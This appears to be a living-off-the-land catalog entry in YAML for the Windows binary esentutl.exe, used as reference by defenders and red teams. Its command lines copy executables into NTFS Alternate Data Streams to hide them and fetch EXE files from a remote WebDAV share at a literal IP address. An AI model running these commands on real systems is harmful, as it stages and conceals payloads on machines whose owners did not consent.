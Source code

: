 ---
Name: Esentutl.exe
Description: Copy, Download, Write ADS, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: Copies the source VBS file to the destination VBS file.
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
  - Command: esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to the destination Alternate Data Stream (ADS) of the destination file.
  - Command: esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o
    Description: Copies the source EXE to the destination EXE file.
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: Copies the source EXE to the destination EXE file
Full Path:
  - c:\windows\system32\esentutl.exe
  - c:\windows\sysWOW64\esentutl.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/egre55/status/985994639202283520
Notes: Thanks to egre55 - @egre55

